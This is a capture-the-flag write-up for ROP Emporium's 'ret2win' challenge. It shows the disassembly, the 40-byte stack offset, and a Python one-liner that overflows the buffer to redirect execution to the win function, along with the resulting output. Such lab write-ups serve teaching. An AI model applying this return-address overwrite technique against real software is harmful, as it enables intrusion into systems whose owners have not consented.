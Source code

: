 # ret2win

In this challenge we are provided with a binary called `ret2win` and a `flag.txt` file.
Our goal is to get the `flag.txt` text using the binary.

## Step 1: Examine the binary
```bash
ilias@USER-PC:/mnt/c/Users/ilias/Desktop/CTFs/ret2win$ checksec --file=./ret2win
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   69 Symbols        No    0      3./ret2win
```
No PIE or Stack canary so we can just examine it with `objdump`:
```bash
ilias@USER-PC:/mnt/c/Users/ilias/Desktop/CTFs/ret2win$ objdump -d ret2win

ret2win:     file format elf64-x86-64


Disassembly of section .init:

----REMOVED FOR THE WRITE-UP----

0000000000400697 <main>:
  400697:       55                      push   %rbp
  400698:       48 89 e5                mov    %rsp,%rbp
  40069b:       48 8b 05 b6 09 20 00    mov    0x2009b6(%rip),%rax        # 601058 <stdout@GLIBC_2.2.5>
  4006a2:       b9 00 00 00 00          mov    $0x0,%ecx
  4006a7:       ba 02 00 00 00          mov    $0x2,%edx
  4006ac:       be 00 00 00 00          mov    $0x0,%esi
  4006b1:       48 89 c7                mov    %rax,%rdi
  4006b4:       e8 e7 fe ff ff          call   4005a0 <setvbuf@plt>
  4006b9:       bf 08 08 40 00          mov    $0x400808,%edi
  4006be:       e8 8d fe ff ff          call   400550 <puts@plt>
  4006c3:       bf 20 08 40 00          mov    $0x400820,%edi
  4006c8:       e8 83 fe ff ff          call   400550 <puts@plt>
  4006cd:       b8 00 00 00 00          mov    $0x0,%eax
  4006d2:       e8 11 00 00 00          call   4006e8 <pwnme>
  4006d7:       bf 28 08 40 00          mov    $0x400828,%edi
  4006dc:       e8 6f fe ff ff          call   400550 <puts@plt>
  4006e1:       b8 00 00 00 00          mov    $0x0,%eax
  4006e6:       5d                      pop    %rbp
  4006e7:       c3                      ret

00000000004006e8 <pwnme>:
  4006e8:       55                      push   %rbp
  4006e9:       48 89 e5                mov    %rsp,%rbp
  4006ec:       48 83 ec 20             sub    $0x20,%rsp
  4006f0:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  4006f4:       ba 20 00 00 00          mov    $0x20,%edx
  4006f9:       be 00 00 00 00          mov    $0x0,%esi
  4006fe:       48 89 c7                mov    %rax,%rdi
  400701:       e8 7a fe ff ff          call   400580 <memset@plt>
  400706:       bf 38 08 40 00          mov    $0x400838,%edi
  40070b:       e8 40 fe ff ff          call   400550 <puts@plt>
  400710:       bf 98 08 40 00          mov    $0x400898,%edi
  400715:       e8 36 fe ff ff          call   400550 <puts@plt>
  40071a:       bf b8 08 40 00          mov    $0x4008b8,%edi
  40071f:       e8 2c fe ff ff          call   400550 <puts@plt>
  400724:       bf 18 09 40 00          mov    $0x400918,%edi
  400729:       b8 00 00 00 00          mov    $0x0,%eax
  40072e:       e8 3d fe ff ff          call   400570 <printf@plt>
  400733:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  400737:       ba 38 00 00 00          mov    $0x38,%edx
  40073c:       48 89 c6                mov    %rax,%rsi
  40073f:       bf 00 00 00 00          mov    $0x0,%edi
  400744:       e8 47 fe ff ff          call   400590 <read@plt>
  400749:       bf 1b 09 40 00          mov    $0x40091b,%edi
  40074e:       e8 fd fd ff ff          call   400550 <puts@plt>
  400753:       90                      nop
  400754:       c9                      leave
  400755:       c3                      ret

0000000000400756 <ret2win>:
  400756:       55                      push   %rbp
  400757:       48 89 e5                mov    %rsp,%rbp
  40075a:       bf 26 09 40 00          mov    $0x400926,%edi
  40075f:       e8 ec fd ff ff          call   400550 <puts@plt>
  400764:       bf 43 09 40 00          mov    $0x400943,%edi
  400769:       e8 f2 fd ff ff          call   400560 <system@plt>
  40076e:       90                      nop
  40076f:       5d                      pop    %rbp
  400770:       c3                      ret
  400771:       66 2e 0f 1f 84 00 00    cs nopw 0x0(%rax,%rax,1)
  400778:       00 00 00
  40077b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)

----REMOVE----
```

As we can in the main we call the function `pwnme` : `call   4006e8 <pwnme>` 
Examining `pwnme` we can see the that the stack is 32 bytes (`sub    $0x20,%rsp`) + 8 (`push   %rbp`) = 40 and we need 8 more bytes
to overwrite the return address to redirect execution to `ret2win` that prints the `flag.txt` file.

## Step 2: Crafting the payload

```bash
ilias@USER-PC:/mnt/c/Users/ilias/Desktop/CTFs/ret2win$ python3 -c 'import sys, struct; sys.stdout.buffer.write(b"A"*40 + struct.
pack("<Q", 0x400757))' > input
```

Then we just use it:
```bash
ilias@USER-PC:/mnt/c/Users/ilias/Desktop/CTFs/ret2win$ ./ret2win < input
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```

## Information

Why didn't I use the `0x400756` ? 
Let's look at what happens when we use that address instead of `0x400757` :
```bash
ilias@USER-PC:/mnt/c/Users/ilias/Desktop/CTFs/ret2win$ python3 -c 'import sys, struct; sys.stdout.buffer.write(b"A"*40 + struct.pack("<Q", 0x400756))' > input
ilias@USER-PC:/mnt/c/Users/ilias/Desktop/CTFs/ret2win$ ./ret2win < input
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
Segmentation fault (core dumped)
```

When the time comes for our flag to be printed we get `Segmentation fault (core dumped)`.
That happens cause the command at the start of our `ret2win` function is `push   %rbp` causing stack misalignment!

